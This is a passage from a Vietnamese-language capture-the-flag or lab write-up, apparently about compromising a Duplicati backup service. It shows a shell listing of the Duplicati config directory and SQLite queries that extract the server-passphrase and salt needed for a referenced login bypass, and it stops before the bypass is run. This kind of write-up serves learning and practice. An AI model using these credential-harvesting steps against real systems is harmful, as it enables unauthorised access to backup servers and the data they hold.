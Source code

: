 Thử tra google thì ra được cách bypass login của [Duplicati](https://github.com/duplicati/duplicati/issues/5197), nhưng chưa có `Server_passphrase`.

Tôi tìm được `Duplicati-server.sqlite`:

```
-bash-5.1$ ls -la /opt/duplicati/config/
total 4100
drwxr-xr-x 4 root root    4096 Sep 20 15:40 .
drwxr-xr-x 3 root root    4096 Aug 18  2024 ..
drwxr-xr-x 3 root root    4096 Aug 18  2024 .config
-rw------- 1 root root  200704 Sep 20 15:25 BGURDWJUJC.sqlite
-rw-r--r-- 1 root root 3158016 Sep 20 15:24 CTADPNHLTC.sqlite
-rw-r--r-- 1 root root   90112 Sep 20 15:40 Duplicati-server.sqlite
-rw------- 1 root root  163840 Sep 20 15:32 GRHMURJHNZ.sqlite
-rw------- 1 root root  163840 Sep 20 15:24 NGWRUDOVCV.sqlite
-rw------- 1 root root  163840 Sep 20 15:34 ROUBTTLKHW.backup
-rw------- 1 root root  217088 Sep 20 15:34 ROUBTTLKHW.sqlite
drwxr-xr-x 2 root root    4096 Aug 18  2024 control_dir_v2
```

Tải file sqlite về và tìm được `server-passphrase`:

```
sqlite> .table
Backup        Log           Option        TempFile    
ErrorLog      Metadata      Schedule      UIStorage   
Filter        Notification  Source        Version     
sqlite> select * from Source
   ...> ;
4|/source/var/www/html/cacti/
sqlite> select * from Backup;
4|Cacti 1.2.26 Backup|||file:///source/opt/backups/cacti/|/config/CTADPNHLTC.sqlite
sqlite> select * from Option;
4||encryption-module|
4||compression-module|zip
4||dblock-size|50mb
4||--no-encryption|true
-1||--asynchronous-upload-limit|50
-1||--asynchronous-concurrent-upload-limit|50
-2||startup-delay|0s
-2||max-download-speed|
-2||max-upload-speed|
-2||thread-priority|
-2||last-webserver-port|8200
-2||is-first-run|
-2||server-port-changed|True
-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
-2||server-passphrase-trayicon|875c45fb-9d07-4fef-90a7-da78b963c5f1
-2||server-passphrase-trayicon-hash|6TpTb6pP/kFODLzi3SbrqNYUz5AYfwioAyOizerKWic=
-2||last-update-check|638939451468891080
-2||update-check-interval|
-2||update-check-latest|
-2||unacked-error|False
-2||unacked-warning|False
-2||server-listen-interface|any
-2||server-ssl-certificate|
-2||has-fixed-invalid-backup-id|True
-2||update-channel|
-2||usage-reporter-level|
-2||has-asked-for-password-protection|true
-2||disable-tray-icon-login|false
-2||allowed-hostnames|*
```
